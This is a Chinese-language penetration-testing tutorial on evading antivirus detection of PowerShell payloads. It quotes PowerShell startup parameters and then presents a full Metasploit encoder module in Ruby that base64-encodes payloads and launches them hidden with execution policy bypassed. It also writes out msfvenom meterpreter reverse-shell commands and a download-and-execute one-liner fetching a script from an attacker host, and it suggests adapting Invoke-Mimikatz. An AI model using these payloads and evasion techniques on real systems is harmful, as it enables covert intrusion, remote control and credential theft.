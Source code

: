 **知识点介绍：**

Windows PowerShell是以.NET Framework技术为基础，并且与现有的WSH保持向后兼容，因此它的脚本程序不仅能访问.NET CLR，也能使用现有的COM技术。同时也包含了数种系统管理工具、简易且一致的语法，提升管理者处理，常见如登录数据库、WMI。Exchange Server 2007以及System Center Operations Manager 2007等服务器软件都将内置Windows PowerShell。Windows PowerShell的强大，并且内置，在渗透过程中，也让渗透变得更加有趣。而安全软件的对抗查杀也逐渐开始针对powershell的一切行为。在 https://technet.microsoft.com，看到文档如下：

>   Here is a listing of the available startup parameters:
-Command Specifies the command text to execute as though it were typed at the PowerShell command prompt.
-EncodedCommand Specifies the base64-encoded command text to execute.
-ExecutionPolicy Sets the default execution policy for the console session.
-File Sets the name of a script file to execute.
-InputFormat Sets the format for data sent to PowerShell as either text string or serialized XML. The default format is XML. Valid values are text and XML.
-NoExit Does not exit after running startup commands. This parameter is useful when you run PowerShell commands or scripts via the command prompt(cmd.exe).
-NoLogo Starts the PowerShell console without displaying the copyright banner.
-Noninteractive Starts the PowerShell console in non-interactive mode. In this mode, PowerShell does not present an interactive prompt to the user.
-NoProfile Tells the PowerShell console not to load the current user’s profile.
-OutputFormat Sets the format for output as either text string or serialized XML. The default format is text. Valid values are text and XML.
-PSConsoleFile Loads the specified Windows PowerShell console file. Console files end with the .psc1 extension and can be used to ensure that specific snap-in extensions are loaded and available. You can create a console file using Export-Console in Windows PowerShell.
-Sta Starts PowerShell in single-threaded mode.
-Version Sets the version of Windows PowerShell to use for compatibility,such as 1.0.
-WindowStyle Sets the window style as Normal, Minimized, Maximized, or Hidden. The default is Normal.

针对它的特性，本地测试：
> Add-Type -AssemblyName PresentationFramework;
>[System.Windows.MessageBox]::Show('Micropoor')

![](media/faf8154c646ab4aa837ebb8d5d99ae78.jpg)

![](media/e1f2fb4edc10e83ae5f2c2f51d6ead38.jpg)

上文所说，越来越多的杀软开始对抗，powershell的部分行为，或者特征。以msfvenom为例，生成payload。  
![](media/7eec22528d589cc79d6af609182206e7.jpg)

micropoor.ps1不幸被杀。  
![](media/90aeb138701d59ba01c5497d2c9d978e.jpg)

针对powershell特性，更改payload  
![](media/12ee496efb54f3670b111d3be3cde056.jpg)

![](media/55da22835d354321eba9b36ebf36128d.jpg)

接下来考虑的事情是如何把以上重复的工作变成自动化，并且针对powershell，DownloadString特性，设计出2种payload形式：  
（1）目标机出网  
（2）目标机不出网

并且根据需求，无缝连接Metasploit。

根据微软文档，可以找到可能对以上有帮助的属性，分别为：  
* Window  
* Style  
* NoExit EncodedCommand  
* exec

自动化实现如下：
```ruby
# copy base64.rb to metasploit-framework/embedded/framework/modules/encoders/powershell.If powershell is empty,mkdir powershell.
# E.g
# msf encoder(powershell/base64) > use exploit/multi/handler
# msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
# payload => windows/x64/meterpreter/reverse_tcp
# msf exploit(multi/handler) > exploit
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx -f psh-reflection --arch x64 --platform windows | msfvenom -e powershell/base64 --arch x64 --platform windows.
# [*] Started reverse TCP handler on xx.1xx.xx.xx:xx

class MetasploitModule < Msf::Encoder
    Rank = NormalRanking

def initialize
    super(
    'Name' => 'Powershell Base64 Encoder',
    'Description' => %q{
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx
-f psh-reflection --arch x64 --platform windows | msfvenom -e
powershell/base64 --arch x64 --platform windows.
    },
    'Author' => 'Micropoor',
    'Arch' => ARCH_CMD,
    'Platform' => 'win')

register_options([
OptBool.new('payload', [ false, 'Use payload ', false ]), 
OptBool.new('x64',[ false, 'Use syswow64 powershell', false ])
])

end

def encode_block(state, buf)
base64 = Rex::Text.encode_base64(Rex::Text.to_unicode(buf)) 
cmd = ''
if datastore['x64']
    cmd += 'c:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe '
else
    cmd += 'powershell.exe ' 
end
if datastore['payload']
    cmd += '-windowstyle hidden -exec bypass -NoExit ' 
end
cmd += "-EncodedCommand \#{base64}" 
end
end

# if use caidao
# execute echo powershell -windowstyle hidden -exec bypass -c \""IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.117/xxx.ps1');\""|msfvenom -e x64/xor4 --arch x64 --platform windows
# xxx.ps1 is msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx -f psh-reflection --arch x64 --platform windows | msfvenom -e powershell/base64 --arch x64 --platform windows.
```

>copy powershell_base64.rb to metasploit‐framework/embedded/framework/modules/encoders/powershell.If powershell is empty,mkdir powershell.

参数 payload 选择是否使用 Metasploit payload，来去掉 powershell 的关键字。

例1（目标出网，下载执行）：

```bash
echo powershell ‐windowstyle hidden ‐exec bypass ‐c \""IEX (New‐ObjectNet.WebClient).DownloadString('http://192.168.1.117/micropoor.ps1');\""|msfvenom ‐e powershell/base64 ‐‐arch x64 ‐‐platform windows
```

![](media/837e8a66210018c4e7891f7cc44ae8dc.jpg)  

![](media/3101ba162d3677409f14f2e6f58a5d2d.jpg)


例2（目标不出网，本地执行）  
![](media/274ee525bf8c174b256047a449e2165c.jpg)

### 注：加payload参数

```bash
msfvenom ‐p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.117 LPORT=8080 ‐f psh‐reflection ‐‐arch x64 ‐‐platform windows | msfvenom ‐e powershell/base64 ‐‐arch x64 ‐‐platform windows payload
```

更多有趣的实验：

把例1的 down 内容更改为例2，并且去掉 payload 参数。来减小 payload 大小。

更改 Invoke-Mimikatz.ps1 等。

![](media/1668ff8230cc690822b002a58bed23b7.jpg)

>   Micropoor
